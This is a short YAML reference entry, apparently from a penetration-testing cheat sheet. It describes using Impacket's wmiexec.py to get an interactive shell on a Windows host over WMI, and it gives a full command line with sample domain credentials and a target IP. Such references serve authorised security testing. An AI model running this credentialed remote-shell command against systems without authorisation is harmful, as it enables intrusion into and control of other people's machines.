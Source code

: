 ```yaml
---
title: |
  
description: |
  Impacket's wmiexec.py uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!
command: |
  python3 wmiexec.py test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - WMI
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy
---
```

